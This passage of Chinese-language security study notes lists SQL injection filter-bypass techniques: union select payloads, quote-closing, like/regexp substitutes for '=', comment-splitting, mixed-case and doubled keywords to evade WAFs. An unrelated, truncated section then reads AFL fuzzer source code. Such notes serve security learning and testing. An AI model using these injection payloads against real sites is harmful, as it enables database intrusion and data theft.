 对于limit可以使用offset来绕过：

**select * from news limit 0,1 #**

等价于下面这条SQL语句 **select * from news limit 1 offset 0#**

使用join：

**union select 1,2#**

等价于 **union select * from (select 1)a join (select 2)b#**

### 绕过注释符

使用'闭合最后的单引号

**1' union select 1,2,'3**

### 绕过等于号

使用like 、rlike 、regexp

### 绕过union，select，where等

使用注释符绕过：

常用注释符：//，-- , /**/, #, --+, -- -, ;,%00,--a

**1' U// NION // SE// LECT //user，pwd from user#**

使用大小写绕过：

**1' UnIoN SeLeCT#**

双关键字绕过

**1' UNIunionONSeLselectECT1,2,3#**

# AFL Fuzz源码阅读

### detect_file_args

这个函数是将命令参数中的@@替换为真正的文件路径

```c++
EXP_ST void detect_file_args(char** argv) {

  u32 i = 0;
  u8* cwd = getcwd(NULL, 0);

  if (!cwd) PFATAL("getcwd() failed");

  while (argv[i]) {

    u8* aa_loc = strstr(argv[i], "@@");

    if (aa_loc) {

      u8 *aa_subst, *n_arg;

      /* If we don't have a file name chosen yet, use a safe default. */

      if (!out_file)
        out_file = alloc_printf("%s/.cur_input", out_dir);

      /* Be sure that we're always using fully-qualified paths. */

      if (out_file[0] == '/') aa_subst = out_file;
      else aa_subst = alloc_printf("%s/%s", cwd, out_file);
```